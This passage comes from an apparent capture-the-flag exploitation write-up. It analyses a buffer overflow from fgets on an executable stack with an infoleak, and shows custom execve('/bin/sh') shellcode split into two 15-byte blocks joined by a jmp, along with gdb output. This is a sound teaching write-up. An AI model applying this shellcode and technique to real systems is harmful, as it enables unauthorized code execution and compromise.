 So we can clearly see there is a buffer overflow bug with the fgets call. It is scanning in 32 (0x20) bytes into a 0x3 byte space (since it is at bp-0x3, and there's nothing below it on the stack). Since there is nothing else on the stack, and we have more than `0x10` bytes worth of overflow we should be able to reach the return address just fine.

So with that, we have an executable stack, a buffer overflow that grants us control of the return address, and a stack infoleak (which we can use to figure out the address of anything within that memory region, by using it's offset). The easy thing to do would be to just push shellcode to the stack, and call it. However the issue here it we don't have a single continuous block of memory to store it in. The biggest one we have is the 0x20 bytes from the goodbye call, however that one has to have an 0x8 byte address 11 bytes in to write over the return address, leaving us with only 21 bytes to work with across two separate blocks. What we will need to do here, is write/modify some custom shellcode to specifically fit in the multiple discontinuous chunks we have. I just managed to split my shellcode into two different 0xf (15) byte blocks, and stored them in inp0 and inp1, and just called inp0 using the infoleak. We already know from what we previously did that the offset from the infoleak we got to our second input is +0x8 bytes.

For writing the custom shellcode, we will be splitting up the shellcode into these two blocks. I did not write this shell code originally, I only modified it to fit this one particular use case (I just threw in a jmp instruction). The shellcode came from here: https://teamrocketist.github.io/2017/09/18/Pwn-CSAW-Pilot/:


block 0:
```
  400080:    48 bf d1 9d 96 91 d0     movabs rdi,0xff978cd091969dd1
  400087:    8c 97 ff
  40008a:    e9 0c 00 00 00           jmp    40009b <_start+0x1b>
```

This block just executes two different instructions. The first just moves the hex string 0xff978cd091969dd1 (which is just the string /bin/sh\x00 noted) into the rdi register, and then calls the relative jump function. This will just jump x amount of instructions, where x is it's argument (which in this case it's 0xc, which is 12). To figure out how many instructions to jump, I examined the amount of instructions interpreted (since most data can be interpreted as an instruction, and our jmp call will) to see how many instructions I would need to jump ahead, and a bit of trial and error until I got it right. We can see where the shellcode will jump in gdb (will help a lot if you use a script in this part):

```
gef➤  search-pattern 0xd091969dd1bf48
[+] Searching '0xd091969dd1bf48' in memory
[+] In '[heap]'(0x55b195217000-0x55b195238000), permission=rwx
  0x55b1952172e0 - 0x55b1952172fc  →   "\x48\xbf\xd1\x9d\x96\x91\xd0[...]"
[+] In '[stack]'(0x7ffcc0c31000-0x7ffcc0c52000), permission=rwx
  0x7ffcc0c508e8 - 0x7ffcc0c50904  →   "\x48\xbf\xd1\x9d\x96\x91\xd0[...]"
gef➤  x/2g 0x7ffcc0c508e8
0x7ffcc0c508e8:    0x8cd091969dd1bf48    0x0000000011e9ff97
gef➤  x/3i 0x7ffcc0c508e8
   0x7ffcc0c508e8:    movabs rdi,0xff978cd091969dd1
   0x7ffcc0c508f2:    jmp    0x7ffcc0c50908
   0x7ffcc0c508f7:    add    BYTE PTR [rdx+0x5b],ah
gef➤  x/5i 0x7ffcc0c50908
   0x7ffcc0c50908:    nop
   0x7ffcc0c50909:    xor    esi,esi
   0x7ffcc0c5090b:    mul    esi
   0x7ffcc0c5090d:    add    al,0x3b
   0x7ffcc0c5090f:    neg    rdi
```
